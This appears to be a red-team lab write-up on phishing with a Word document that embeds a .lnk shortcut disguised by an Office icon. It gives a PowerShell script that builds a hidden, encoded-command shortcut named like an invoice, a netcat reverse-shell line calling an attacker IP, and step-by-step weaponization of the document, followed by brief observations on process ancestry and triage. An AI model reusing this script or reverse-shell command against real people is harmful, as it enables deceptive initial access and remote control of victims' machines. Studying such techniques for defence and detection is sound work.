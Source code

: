 ```yaml
---
description: 'Phishing, Initial Access using embedded OLE + LNK objects'
---
```


# Phishing: OLE + LNK

This lab explores a popular phishing technique where attackers embed .lnk files and camouflage them with Ms Word office icon in .doc files to deceive victims to click the embedded file. Once clicked, the embedded file executes the malicious payload.

## Weaponization

Creating an .LNK file that will trigger the payload once executed:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
$command = 'Start-Process c:\shell.cmd'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

$obj = New-object -comobject wscript.shell
$link = $obj.createshortcut("c:\experiments\ole+lnk\Invoice-FinTech-0900541.lnk")
$link.windowstyle = "7"
$link.targetpath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
$link.iconlocation = "C:\Program Files\Windows NT\Accessories\wordpad.exe"
$link.arguments = "-Nop -sta -noni -w hidden -encodedCommand UwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAGMAOgBcAHMAaABlAGwAbAAuAGMAbQBkAA=="
$link.save()
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Powershell payload will trigger a rudimentary NC reverse shell:

{% code-tabs %}
{% code-tabs-item title="c:\\shell.cmd" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Once the above powershell script is executed, an `.LNK` shortcut is created:

![](../../.gitbook/assets/ole-lnk-shortcut-created.png)

Let's create a Word document that will contain the malicious shortcut that was created in the previous step:

![](../../.gitbook/assets/ole-good-document.png)

Let's insert a new object into the document by selecting a `Package`and changing its icon source to a Microsoft Word executable:

![](../../.gitbook/assets/ole-insert-ole-object-with-icon.png)

![](../../.gitbook/assets/ole-change-icon.png)

Point the package to the .lnk file containing the payload:

![](../../.gitbook/assets/ole-payload.png)

Final result:

![](../../.gitbook/assets/ole-weaponized.png)

## Execution

Victim executing the embedded document. Gets presented with a popup to confirm execution:

![](../../.gitbook/assets/ole-execution.png)

Confirms execution - note how the reverse shell came back to the attacker:

![](../../.gitbook/assets/ole-execution2.png)

## Observations

After the payload is triggered, the process ancestry looks as expected - powershell gets spawned by winword, cmd is spawned by powershell, etc.:

![](../../.gitbook/assets/ole-ancestry1.png)

Soon after, the powershell gets killed and cmd.exe becomes an orphan:

![](../../.gitbook/assets/ole-ancestry2.png)

Like in [T1137: Phishing - Office Macros](t1137-office-vba-macros.md), you can use rudimentary tools on your Windows workstation to quickly triage the document.   
First off, rename the file to a .zip extension and unzip it. Then you can navigate to `word\embeddings` and there you will see an `oleObject.bin` file that contains the malicious `.lnk`:

![](../../.gitbook/assets/ole-embedded-bin.png)

Then you can do a simple `strings` or hexdump against the file and you should immediately see signs of something that should raise your eyebrow\(s\):

```csharp
hexdump.exe -C .\oleObject1.bin
```

![](../../.gitbook/assets/ole-hexdump.png)

{% file src="../../.gitbook/assets/ole.ps1" caption="OLE+LNK Powershell Script" %}

{% file src="../../.gitbook/assets/invoice-fintech-0900541.lnk" caption="Invoice-FinTech-0900541.lnk" %}

{% file src="../../.gitbook/assets/completely-not-a-scam-ole+lnk.docx" caption="Phishing: OLE+Lnk MS Word Doc Package" %}

[https://adsecurity.org/wp-content/uploads/2016/09/DerbyCon6-2016-AttackingEvilCorp-Anatomy-of-a-Corporate-Hack-Presented.pdf](https://adsecurity.org/wp-content/uploads/2016/09/DerbyCon6-2016-AttackingEvilCorp-Anatomy-of-a-Corporate-Hack-Presented.pdf)

